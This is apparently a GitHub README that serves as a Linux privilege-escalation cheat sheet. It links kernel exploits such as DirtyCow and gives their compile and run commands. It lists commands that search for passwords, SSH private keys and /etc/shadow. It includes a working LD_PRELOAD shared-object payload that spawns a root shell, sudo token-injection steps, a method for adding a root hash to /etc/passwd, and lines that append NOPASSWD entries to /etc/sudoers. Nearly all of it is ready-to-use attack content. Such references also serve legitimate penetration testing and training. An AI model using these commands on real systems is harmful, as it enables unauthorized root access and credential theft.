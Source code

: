 # linux-priv-Esc

# GTFOBinn
https://gtfobins.github.io


# Initial Enumeration
uname -a, netstat -ano, history

# Automated tools
1) Linux-Exploit-Suggester  https://github.com/mzet-/linux-exploit-suggester
2) Linux-Privilege-Script https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
3) Linux-Enumeration https://github.com/rebootuser/LinEnum


# Kernal-Exploit

1) CVE-2016-5195 (DirtyCow)
Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8  
Code: https://github.com/FireFart/dirtycow/blob/master/dirty.c  

  compile:- gcc -pthread dirty.c -o dirty -lcrypt  
  Time to execute:- "./dirty" or "./dirty my-new-password"

2) CVE-2010-3904 (RDS)  
Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8  
https://www.exploit-db.com/exploits/15285/

3) CVE-2010-4258 (Full Nelson)  
Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04)  
https://www.exploit-db.com/exploits/15704/  

4) CVE-2012-0056 (Mempodipper)  
Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)  
https://www.exploit-db.com/exploits/18411  


# Weak File Permission

ls -l | grep shadow  
ls -l | grep passwd

# File Containing Password

grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null  
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;

# Old passwords in /etc/security/opasswd
/etc/security/opasswd 

# Last edited files
*Files that were edited in the last 10 minutes*  
find / -mmin -10 2>/dev/null | grep -Ev "^/proc"

# In memory passwords
strings /dev/mem -n10 | grep -i PASS

# Find sensitive files
$ locate password | more  
/boot/grub/i386-pc/password.mod  
/etc/pam.d/common-password  
/etc/pam.d/gdm-password  
/etc/pam.d/gdm-password.original  
/lib/live/config/0031-root-password  

# SSH Key
*Sensitive files*  
find / -name authorized_keys 2> /dev/null  
find / -name id_rsa 2> /dev/null

# SUDO
* NOPASSWD Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.*  
$ sudo -l

# LD_PRELOAD and NOPASSWD
If LD_PRELOAD is explicitly defined in the sudoers file

Defaults        env_keep += LD_PRELOAD

Compile the shared C code below on victim machine with gcc -fPIC -shared -o shell.so shell.c -nostartfiles

#include <stdio.h>  
#include <sys/types.h>  
#include <stdlib.h>  
void _init() {  
	unsetenv("LD_PRELOAD");  
	setgid(0);  
	setuid(0);  
	system("/bin/sh");  
}  
Execute any binary with the LD_PRELOAD to spawn a shell : sudo LD_PRELOAD=<full_path_to_.so_file> <program>, e.g: sudo LD_PRELOAD=/tmp/shell.so whoami  

# sudo_inject
Using https://github.com/nongiach/sudo_inject  

$ sudo whatever

[sudo] password for user:  

# Press <ctrl>+c since you don't have the password.  
# This creates an invalid sudo tokens.  
$ sh exploit.sh  
.... wait 1 seconds  
$ sudo -i # no password required :)  
# id  
uid=0(root) gid=0(root) groups=0(root)  
	
Slides of the presentation : https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf  


# Writabe /etc/passwd
If we have permission to write a passwd file in linux then generate password from this command.  

openssl passwd -1 -salt escalate  
mkpasswd -m SHA-512 esclate

Then add the generated password.

root:GENERATED_PASSWORD_HERE:0:0:root:/root:/bin/bash  
E.g: root:$1$hacker$TzyFIv0/R/c28W.GAeLw.1:0:0:root:/root:/bin/bash

You can now use the su command with root:esclate  
E.g: su root  

# Writable /etc/sudoers
echo "username ALL=(ALL:ALL) ALL">>/etc/sudoers  

# use SUDO without password
echo "username ALL=(ALL) NOPASSWD: ALL" >>/etc/sudoers  
echo "username ALL=NOPASSWD: /bin/bash" >>/etc/sudoers  
